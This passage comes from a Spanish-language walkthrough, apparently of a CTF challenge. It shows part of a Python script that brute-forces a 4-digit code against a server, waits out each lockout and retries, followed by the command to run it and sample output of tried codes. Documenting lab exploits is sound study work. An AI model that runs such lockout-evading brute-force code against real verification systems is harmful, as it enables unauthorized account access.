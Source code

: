 ```python
                data = response.json()  # Parsear la respuesta JSON
            except ValueError as e:
                print("Error al procesar la respuesta JSON:", e)
                return False

            # Si el código es correcto
            if data.get('status') == 'success':
                print(f"¡Código correcto encontrado! El código es {code_str}")
                return True  # Código correcto encontrado

            # Si el código es incorrecto
            elif data.get('status') == 'failed':
                attempts_left = data.get('attempts')  # Actualizamos los intentos restantes según el servidor
                print(f"Intento fallido. Intentos restantes: {attempts_left}")

            # Si está bloqueado
            elif data.get('status') == 'blocked':
                remaining_time = data.get('remainingTime')
                print(f"Estás bloqueado, esperando {remaining_time} segundos...")
                time.sleep(remaining_time + 1)  # Esperamos el tiempo de bloqueo
                print("Reintentando...")

            # Si el código no es válido (no tiene 4 dígitos o es incorrecto)
            elif data.get('status') == 'invalid':
                print("El código debe ser de 4 dígitos. Reintenta.")
        else:
            print(f"Error al enviar el código, estado {response.status_code}")
        
        # Esperamos un segundo entre cada intento para evitar hacer peticiones muy rápidas
        time.sleep(1)

        # Incrementamos el código para el siguiente intento
        current_code += 1

if __name__ == '__main__':
    print("Iniciando ataque de fuerza bruta para encontrar el código...")
    brute_force()
```

Lo guardamos y ejecutamos de la siguiente forma:

```shell
python3 bruteForceCode.py
```

Info:

```
..........................<RESTO_DE_CODIGO>......................................
Intento fallido. Intentos restantes: 2
Intentando código: 0074
Intento fallido. Intentos restantes: 1
Intentando código: 0075
Intento fallido. Intentos restantes: 10
Intentando código: 0076
Estás bloqueado, esperando 29 segundos...
Reintentando...
Intentando código: 0077
Intento fallido. Intentos restantes: 9
Intentando código: 0078
Intento fallido. Intentos restantes: 8
Intentando código: 0079
Intento fallido. Intentos restantes: 7
Intentando código: 0080
```